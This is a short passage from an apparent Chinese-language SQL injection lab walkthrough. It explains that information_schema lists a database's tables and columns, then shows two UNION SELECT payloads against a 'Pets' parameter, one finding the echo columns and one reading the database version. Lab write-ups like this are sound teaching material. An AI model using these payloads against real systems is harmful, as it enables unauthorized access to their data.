 <img src="assets/image-20250627002657569.png" alt="image-20250627002657569" style="zoom:67%;" />

那就是说我们sql注入的时候不需要去猜数据库名表明列名，我们通过information_schema数据库很清晰地查有哪些数据库、有哪些表、字段



来到这一关

```
Pets' union select 'bbbbbbbbbbbbb','aaaaaaaaaaaaaaaaa'--+
```

![image-20250627182605974](assets/image-20250627182605974.png)

在回显位判断一下数据库

```
Pets' union select version(),'aaaaaaaaaaaaaaaaa'--+
```

![image-20250627182838518](assets/image-20250627182838518.png)
